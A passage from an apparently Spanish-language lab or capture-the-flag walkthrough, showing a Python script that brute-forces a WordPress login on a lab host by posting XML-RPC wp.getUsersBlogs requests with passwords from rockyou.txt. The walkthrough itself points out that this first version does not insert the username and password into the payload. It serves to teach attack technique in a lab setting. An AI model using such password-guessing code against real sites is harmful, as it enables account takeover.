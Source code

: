 ### **Cambios y objetivos:**

- Se comenta la impresión completa de la lista para evitar demasiada salida.
    
- Se imprime el **tipo** de `passwords` para confirmar que efectivamente es una lista. Esto ayuda a entender la estructura de datos con la que se va a trabajar en los siguientes pasos.
    

---

## 3. **Primer Intento de Brute-Force**

**Código con bucle y prueba de contraseñas:**

```python
import requests
import signal

url = 'http://escolares.dl/wordpress/wp-login.php'
usuario = 'luisillo'
contraseña = 'rockyou.txt'

with open(contraseña, 'r', encoding='latin-1') as diccionario:
    passwords = diccionario.readlines()

for password in passwords:
    password = password.strip()  # Elimina espacios y saltos de línea

    payload = """
<methodCall>
<methodName>wp.getUsersBlogs</methodName>
<params>
<param><value>{usuario}</value></param>
<param><value>{password}</value></param>
</params>
</methodCall>
"""

    print(f"Probamos con la contraseña {password}")
    
    respuesta = requests.post(url, data=payload)
    
    if 'incorrectos' not in respuesta.text:
        print(f"La contraseña del usuario luisillo es {password}")
        exit()
```

### **Qué se añade y modifica:**

- **Bucle for:** Se itera sobre cada contraseña en la lista.
    
- **Eliminación de espacios:** Se utiliza `.strip()` para limpiar cada línea.
    
- **Construcción del payload:** Se crea una cadena XML que se enviará en la solicitud POST para probar la contraseña.  
    _Nota:_ En este primer intento, el `payload` se define como una cadena multilínea sin interpolación directa, lo que puede generar problemas al no insertar los valores reales de `usuario` y `password`.
    